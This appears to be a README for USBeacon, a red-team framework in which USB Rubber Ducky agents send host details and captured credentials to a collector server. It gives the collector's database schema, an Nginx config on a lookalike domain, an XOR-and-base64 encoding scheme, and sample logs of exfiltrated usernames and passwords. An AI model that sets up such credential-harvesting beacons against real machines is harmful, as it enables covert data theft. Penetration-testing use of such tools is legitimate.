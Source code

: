 # USBeacon

Objective(s):
> A reference implementation of a simple protocol and an agent contract to collect and transfer information from a remote computer to a collector. Mostly designed to work around USB Rubber Duckies but may be used standalone. The goals are to support the lowest common protocols available to the agent tech stack (clear HTTP) and minimal encryption facilities (e.g. XOR in ntive VBScript) across the board of deployment context (OS, etc.).

### Architecture

![arch diagram](https://github.com/dsnezhkov/USBeacon/raw/master/docs/USBeacon.png "Arch Diagram")


### Backend
*Location*: `/backend`
*Goal*: Stand up a collector application and store collected data in a simple database table



A. Init database: 
`python initdb.py`
```
CREATE TABLE beacon (
        id INTEGER NOT NULL,
        hashid VARCHAR(8),
        app VARCHAR(2),
        ip VARCHAR(16),
        data TEXT,
        created_at DATETIME,
        PRIMARY KEY (id)
);
```
B. Reference dependencies needed
`scripts/setup.sh`

Sample Nginx config:
```
server {
        listen 80;
        listen 443 ssl;
        server_name *.awsbuckets.online;


        ssl_certificate /etc/letsencrypt/live/<domain>/fullchain.pem;
        ssl_certificate_key /etc/letsencrypt/live/<domain?/privkey.pem;
        ssl_session_timeout 5m;
        ssl_protocols TLSv1 TLSv1.1 TLSv1.2;
        ssl_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
        ssl_prefer_server_ciphers on;



        # Handle all locations
        location ~ ^/(beacon|ebeacon)/ {
                # Pass the request to Gunicorn
                proxy_pass http://127.0.0.1:8000;

                # Set some HTTP headers so that our app knows where the
                # request really came from
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
}
```
C. Start application proxied by Nginx
`scripts/start_server.sh`

### Payload Frontend Apps
Location: `/frontend`
*Goal*: Examples of code for the collecting agent running on the remote computers (Mac/Windows) and establishing communication from the agent to the collector


### Agent Provisioning 
*Location*: `/provisioning`
*Goal*: Help with USB RD provisioning (e.g firmware flashing, agent payload placement, etc.) 

### Protocol
```
Agent: base64(dec_array(xor(key, binary(bytes)))) 
Collector: ^^ reverse
```

Protocol examples (logs):
```
<Beacon: [hashid=53414C45532D5043, app=phs, ip=127.0.0.1, data=user:SM\test,pass:test] @ August 14 2019 - 05:48PM>
127.0.0.1 - - [14/Aug/2019:17:48:09 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: NDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzQsMTgsMzEsMjgsMzIsNDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzcsNzQsMzI=
B64 Decoded: 45,63,50,59,45,83,46,61,34,18,31,28,32,45,63,50,59,45,83,46,61,32,79,71,76,80,79,72,70,80,79,71,71,80,79,77,74,32
Plain Payload: SALES-PC\lab^SALES-PC^192.168.1.1^

<Beacon: [hashid=53414C45532D5043, app=hid, ip=127.0.0.1, data=SALES-PC\lab^SALES-PC^192.168.1.1^] @ August 14 2019 - 06:18PM>
127.0.0.1 - - [14/Aug/2019:18:18:39 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: MTEsMTMsMjcsMTIsNjgsODIsMTQsMzEsMTMsMTMsNjg=
B64 Decoded: 11,13,27,12,68,82,14,31,13,13,68
Plain Payload: user:,pass:
```

